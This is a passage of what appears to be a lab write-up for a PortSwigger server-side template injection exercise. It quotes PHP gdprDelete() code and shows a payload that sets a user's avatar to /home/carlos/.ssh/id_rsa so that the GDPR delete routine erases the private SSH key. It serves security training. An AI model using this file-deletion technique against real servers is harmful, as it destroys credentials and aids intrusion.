 ```php
        $this->delete();
    }

    private function rm($filename) {
        if (!unlink($filename)) {
            throw new Exception("Could not delete " . $filename);
        }
    }
}

?>
```

**At the first glance, I immediately find something weird:**
```php
    public function delete() {
        $file = $this->user_dir . "/disabled";
        if (file_put_contents($file, "") === false) {
            throw new Exception("Could not write to " . $file);
        }
    }

    public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }

    private function rm($filename) {
        if (!unlink($filename)) {
            throw new Exception("Could not delete " . $filename);
        }
    }
```

**Let's take a look at the `gdprDelete()` method to delete a file:**

- Call function `rm(filename)`, and the argument is reading symbolic link file to the avatar file, which is in `users/<username>/avatar`
    - Then function `rm(filename)` try to delete the avatar file. If unable to do so, throw an error exception.

Armed with above information, we can finally delete `carlos`'s private SSH key(`id_rsa`)!

**To do so, we'll need to set the avatar file to `/home/carlos/.ssh/id_rsa`:**
```php
user.setAvatar('/home/carlos/.ssh/id_rsa','image/png')
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224012208.png)

**Then invoke method `user.gdprDelete()`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224012258.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224012304.png)

We did it!

# What we've learned:

1. Server-side template injection with a custom exploit